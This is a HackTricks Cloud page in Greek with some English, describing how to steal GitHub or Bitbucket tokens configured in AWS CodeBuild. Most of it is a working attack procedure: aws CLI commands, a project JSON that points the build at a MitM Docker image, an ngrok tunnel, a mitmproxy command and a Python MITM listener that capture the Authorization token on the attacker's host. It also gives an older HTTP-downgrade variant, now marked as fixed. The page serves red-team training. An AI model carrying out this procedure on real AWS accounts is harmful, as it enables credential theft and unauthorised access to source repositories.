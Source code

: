 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Ανάκτηση Ρυθμισμένων Tokens Github/Bitbucket

Πρώτα, ελέγξτε αν υπάρχουν οποιαδήποτε διαπιστευτήρια πηγής ρυθμισμένα που θα μπορούσατε να διαρρεύσετε:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Αν διαπιστώσετε ότι η αυθεντικοποίηση για παράδειγμα στο Github είναι ρυθμισμένη στον λογαριασμό, μπορείτε να **exfiltrate** αυτήν την **access** (**GH token ή OAuth token**) κάνοντάς το Codebuild να **χρησιμοποιήσει μια συγκεκριμένη εικόνα docker** για να εκτελέσει την κατασκευή του έργου.

Για αυτόν τον σκοπό μπορείτε να **δημιουργήσετε ένα νέο έργο Codebuild** ή να αλλάξετε το **περιβάλλον** ενός υπάρχοντος για να ρυθμίσετε την **εικόνα Docker**.

Η εικόνα Docker που μπορείτε να χρησιμοποιήσετε είναι [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Αυτή είναι μια πολύ βασική εικόνα Docker που θα ρυθμίσει τις **env μεταβλητές `https_proxy`**, **`http_proxy`** και **`SSL_CERT_FILE`**. Αυτό θα σας επιτρέψει να παγιδεύσετε το μεγαλύτερο μέρος της κίνησης του host που υποδεικνύεται στο **`https_proxy`** και **`http_proxy`** και να εμπιστευτείτε το SSL CERT που υποδεικνύεται στο **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
* Ακολουθήστε τις οδηγίες του repo για να ρυθμίσετε τη διεύθυνση IP του proxy σας και να ρυθμίσετε το SSL cert και **build the docker image**.
* **DO NOT SET `http_proxy`** για να μην παγιδεύσετε αιτήματα προς το metadata endpoint.
* Μπορείτε να χρησιμοποιήσετε **`ngrok`** όπως `ngrok tcp 4444` για να ρυθμίσετε το proxy στον host σας.
* Μόλις έχετε κατασκευάσει την εικόνα Docker, **upload it to a public repo** (Dockerhub, ECR...)
2. **Set the environment**
* Δημιουργήστε ένα **νέο έργο Codebuild** ή **τροποποιήστε** το περιβάλλον ενός υπάρχοντος.
* Ρυθμίστε το έργο να χρησιμοποιεί την **προηγουμένως παραγόμενη εικόνα Docker**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* Όπως υποδεικνύεται στο **Github repo** μπορείτε να χρησιμοποιήσετε κάτι σαν:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Η **έκδοση mitmproxy που χρησιμοποιήθηκε ήταν 9.0.1**, αναφέρθηκε ότι με την έκδοση 10 αυτό μπορεί να μην λειτουργήσει.
{% endhint %}

4. **Εκτέλεση της κατασκευής & καταγραφή των διαπιστευτηρίων**

*   Μπορείτε να δείτε το token στην κεφαλίδα **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Αυτό μπορεί επίσης να γίνει από το aws cli με κάτι σαν

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Μέσω του πρωτοκόλλου HTTP~~

{% hint style="success" %}
**Αυτή η ευπάθεια διορθώθηκε από την AWS κάποια στιγμή την εβδομάδα της 20ης Φεβρουαρίου 2023 (νομίζω την Παρασκευή). Έτσι, ένας επιτιθέμενος δεν μπορεί να την εκμεταλλευτεί πια :)**
{% endhint %}

Ένας επιτιθέμενος με **υψηλά δικαιώματα σε ένα CodeBuild θα μπορούσε να διαρρεύσει το token Github/Bitbucket** που έχει ρυθμιστεί ή αν τα δικαιώματα είχαν ρυθμιστεί μέσω OAuth, το ** προσωρινό token OAuth που χρησιμοποιείται για την πρόσβαση στον κώδικα**.

* Ένας επιτιθέμενος θα μπορούσε να προσθέσει τις μεταβλητές περιβάλλοντος **http\_proxy** και **https\_proxy** στο έργο CodeBuild που να δείχνουν στη μηχανή του (για παράδειγμα `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Στη συνέχεια, να αλλάξει τη διεύθυνση URL του αποθετηρίου github για να χρησιμοποιεί HTTP αντί για HTTPS, για παράδειγμα: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Στη συνέχεια, να εκτελέσει το βασικό παράδειγμα από [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) στην πόρτα που υποδεικνύεται από τις μεταβλητές proxy (http\_proxy και https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Τέλος, κάντε κλικ στο **Build the project**, τα **credentials** θα σταλούν σε **καθαρό κείμενο** (base64) στην πόρτα mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Τώρα ένας επιτιθέμενος θα μπορεί να χρησιμοποιήσει το token από τον υπολογιστή του, να καταγράψει όλα τα δικαιώματα που έχει και να (κατα)χρησιμοποιήσει πιο εύκολα από το να χρησιμοποιήσει απευθείας την υπηρεσία CodeBuild.
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Ελέγξτε τα [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή την [**telegram group**](https://t.me/peass) ή **follow** us στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

